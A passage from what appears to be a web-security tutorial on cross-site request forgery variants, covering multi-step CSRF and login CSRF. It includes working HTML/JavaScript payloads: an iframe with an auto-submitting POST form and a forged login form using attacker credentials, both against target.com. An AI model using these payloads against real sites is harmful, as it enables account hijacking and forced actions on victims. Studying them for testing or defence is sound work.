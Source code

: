 ###  Impact:

CORS + CSRF = full account hijack.

###  6. Multi-Step CSRF

###  Scenario:

1.  Step 1: `GET /start-change` — CSRF-safe
2.  Step 2: `POST /confirm-change` — lacks protection

###  Trick:

Auto-submit both steps from your page :

```html
<iframe src="<https://target.com/start-change>" onload="step2()"></iframe>

<script>
  function step2() {
    var f = document.createElement("form");
    f.method = "POST";
    f.action = "<https://target.com/confirm-change>";
    f.innerHTML = '<input name="confirm" value="yes">';
    document.body.appendChild(f);
    f.submit();
  }
</script>
```

###  Impact:

By chaining steps, attacker executes a CSRF that bypasses step-based protections.

### 7. Login CSRF

###  Scenario:

If a site **allows login via POST**, and doesn’t have CSRF protection on login form, an attacker can:

-   Force login with attacker creds
-   Victim’s session is now authenticated as attacker

```html
<form method="POST" action="<https://target.com/login>">
  <input name="username" value="attacker">
  <input name="password" value="123456">
</form>
```

###  Impact:
